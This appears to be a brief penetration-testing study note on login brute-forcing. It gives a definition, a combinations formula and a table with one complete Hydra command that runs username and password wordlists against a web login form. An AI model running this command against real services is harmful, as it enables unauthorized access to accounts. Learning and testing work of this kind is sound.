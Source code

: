 Related articles:
Tags: #Maneuvers 

---

# 📖 Definition: 
When other solutions seem to not give us results, we can move to login brute-forcing. It's a maneuver that will try each combination possible, randomly, based on a dictionary or a rainbow table for example.
Brute-forcing is all mathematics:
```mathml
Possible Combinations = Character Set Size^Password Length
```


---

Useful Commands:


| Hydra Username + Password Brute-Forcing |     | ```shell-session<br>hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"``` |
| :-------------------------------------: | --- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
|                                         |     |                                                                                                                                                                                        |
|                                         |     |                                                                                                                                                                                        |
